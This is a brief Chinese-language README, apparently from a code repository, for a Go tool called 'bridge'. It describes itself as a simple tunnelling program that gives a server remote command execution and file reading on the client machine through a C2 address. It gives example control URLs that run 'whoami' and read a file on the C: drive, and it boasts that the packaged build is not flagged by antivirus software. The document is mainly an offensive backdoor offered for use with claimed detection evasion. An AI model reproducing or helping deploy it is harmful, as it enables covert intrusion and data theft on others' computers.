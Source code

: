 # bridge
## 介绍
用Go写的最简单的内网穿透程序，穿透完成后，服务端可以进行命令执行与文件读取。
需要修改client.go第14行为c2地址。
利用URL分别为：server-host:6602/?cmd=whoami & server-host:6602/?file=C:/test.txt" 

## 免杀
打包后杀毒软件不标红。会有SmartScreen提示。
